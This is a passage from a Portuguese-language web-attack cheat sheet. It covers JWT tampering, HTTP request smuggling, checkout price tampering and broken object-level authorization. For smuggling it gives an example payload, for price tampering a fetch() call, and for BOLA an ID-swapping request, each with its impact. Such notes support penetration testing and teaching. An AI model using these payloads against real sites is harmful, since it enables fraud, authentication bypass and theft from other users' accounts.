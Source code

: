 Ferramenta: jwt_tool.py, HackTricks - JWT manual tampering.

2. HTTP Smuggling (CL.TE / TE.CL Attacks)
Contexto: Diferença na interpretação de cabeçalhos Content-Length e Transfer-Encoding entre frontend e backend servers.

Ataques:

Request Smuggling para roubar cookies ou injetar requisições.

Exemplo prático de payload:

makefile
Copiar
Editar
POST / HTTP/1.1
Host: vulnerable.com
Content-Length: 13
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable.com
Impacto: Admin bypass, desvio de autenticação, cache poisoning.

3. Business Logic Flaws (Processo de Pagamento)
Contexto: Manipulação de lógica de processos, tipo carrinho de compras ou checkout.

Ataques:

Alterar valor do produto no frontend antes de enviar (price tampering).

Skipping pagamentos obrigatórios.

Exemplo:

javascript
Copiar
Editar
fetch('/checkout', {
  method: 'POST',
  body: JSON.stringify({ item: 'iPhone', price: '1.00' }),
});
Impacto: Compra produtos de graça.

4. Broken Object Level Authorization (BOLA)
Contexto: APIs expõem IDs diretamente (/user/1234/wallet).

Ataques:

Acessar recursos de outros usuários trocando IDs.

Exemplo HTTP Request:

sql
Copiar
Editar
GET /api/user/1234/wallet HTTP/1.1
Authorization: Bearer eyJhbGciOi...
Impacto: Roubo de carteira, saldo de terceiros.
